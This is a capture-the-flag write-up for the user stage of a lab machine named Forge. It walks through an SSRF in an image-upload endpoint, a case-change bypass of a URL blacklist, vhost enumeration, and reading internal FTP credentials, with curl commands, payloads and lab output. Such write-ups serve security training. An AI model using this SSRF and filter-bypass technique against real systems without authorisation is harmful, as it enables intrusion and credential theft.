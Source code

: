 ## Info
### Credential
 User | Password           | Service | Note
------|--------------------|---------|------
user  |heightofsecurity123!|FTP      |

## Path
### User
1. Got redirected to `forge.htb`, so added that to `/etc/hosts`.
2. When requesting a URL that doesn't serve http service, it showed the following error. From the error message, we could assume the backend was running python.
```
An error occured! Error : HTTPConnectionPool(host='10.10.17.87', port=80): Max retries exceeded with url: /index.html (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7f4cdca7f730>: Failed to establish a new connection: [Errno 111] Connection refused'))
```
3. By using uppercase, I bypassed the blacklist of the URL and could request to the local of the host. Since the FTP got filtered on `nmap`, I tried and found FTP was running locally.
```
$ curl http://forge.htb/upload -X POST -d 'url=http://ForGe.HTB:21/&remote=0'
<strong>An error occured! Error : (&#39;Connection aborted.&#39;, BadStatusLine(&#34;220 Forge&#39;s internal ftp server\r\n&#34;))</strong>
```
4. After testing, the upload page seemed cannot do much, so I turned back to do more enumeration. And I found the subdomain `admin.forge.htb`.
```
$ gobuster vhost -u http://forge.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -o vhost.gobuster
$ grep -v 302 vhost.gobuster
Found: admin.forge.htb (Status: 200) [Size: 27]
```
5. When visiting `admin.forge.htb`, it said `Only localhost is allowed!`. We could reach it using step 3 method. The script `ssrf.py` showed the result.
```
[path]> /
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
``` 
6. Visiting `/announcements` through SSRF, it gave us the credential of the FTP server.
```
[path]> /announcements
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
```
7. Followed the instruction in `/announcements`, I requested to the internal FTP server and got the user flag.
```
[path]> http://admin.foRge.Htb/upload?u=ftp://user:heightofsecurity123!@Forge.Htb/
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 11 21:36 user.txt
```


